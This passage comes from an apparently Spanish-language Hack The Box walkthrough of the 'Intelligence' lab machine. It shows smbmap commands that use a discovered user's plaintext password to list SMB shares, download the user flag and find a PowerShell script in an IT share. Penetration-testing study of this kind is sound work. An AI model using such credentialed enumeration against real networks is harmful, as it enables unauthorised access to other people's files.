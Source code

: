         fr--r--r--           524288 Mon Apr 19 02:51:46 2021    NTUSER.DAT{6392777f-a0b5-11eb-ae6e-000c2908ad93}.TMContainer00000000000000000001.regtrans-ms
        fr--r--r--           524288 Mon Apr 19 02:51:46 2021    NTUSER.DAT{6392777f-a0b5-11eb-ae6e-000c2908ad93}.TMContainer00000000000000000002.regtrans-ms
        fr--r--r--               20 Mon Apr 19 02:51:46 2021    ntuser.ini
        dw--w--w--                0 Mon Apr 19 02:51:46 2021    Pictures
        dr--r--r--                0 Mon Apr 19 02:51:46 2021    Recent
        dr--r--r--                0 Mon Apr 19 02:51:46 2021    Saved Games
        dr--r--r--                0 Mon Apr 19 02:51:46 2021    SendTo
        dr--r--r--                0 Mon Apr 19 02:51:46 2021    Start Menu
        dr--r--r--                0 Mon Apr 19 02:51:46 2021    Templates
        dw--w--w--                0 Mon Apr 19 02:51:46 2021    Videos
                                                                                                                                                                                                                 
     ❯ smbmap -H 10.10.10.248 -u "Tiffany.Molina" -p "NewIntelligenceCorpUser9876" -r Users/Tiffany.Molina/Desktop
     [+] IP: 10.10.10.248:445        Name: intelligence.htb                                  
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        Users                                                   READ ONLY
        .\UsersTiffany.Molina\Desktop\*
        dw--w--w--                0 Mon Apr 19 02:51:46 2021    .
        dw--w--w--                0 Mon Apr 19 02:51:46 2021    ..
        fw--w--w--               34 Wed Mar 15 21:55:35 2023    user.txt
                                                                                                                                                                                                                 
     ❯ smbmap -H 10.10.10.248 -u "Tiffany.Molina" -p "NewIntelligenceCorpUser9876" --download Users/Tiffany.Molina/Desktop/user.txt
     [+] Starting download: Users\Tiffany.Molina\Desktop\user.txt (34 bytes)
     [+] File output to: /home/atreus/HTB/intelligence/content/10.10.10.248-Users_Tiffany.Molina_Desktop_user.txt

Tambien anteriormente vimos algo raro, habia una carpeta llamada IT.. tambien vamos a enumerarla

     ❯ smbmap -H 10.10.10.248 -u "Tiffany.Molina" -p "NewIntelligenceCorpUser9876"
     [+] IP: 10.10.10.248:445        Name: intelligence.htb                                  
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        IT                                                      READ ONLY
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
        Users                                                   READ ONLY
                                                                                                                                                                                                                 
     ❯ smbmap -H 10.10.10.248 -u "Tiffany.Molina" -p "NewIntelligenceCorpUser9876" -r IT
     [+] IP: 10.10.10.248:445        Name: intelligence.htb                                  
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        IT                                                      READ ONLY
        .\IT\*
        dr--r--r--                0 Mon Apr 19 02:50:58 2021    .
        dr--r--r--                0 Mon Apr 19 02:50:58 2021    ..
        fr--r--r--             1046 Mon Apr 19 02:50:58 2021    downdetector.ps1
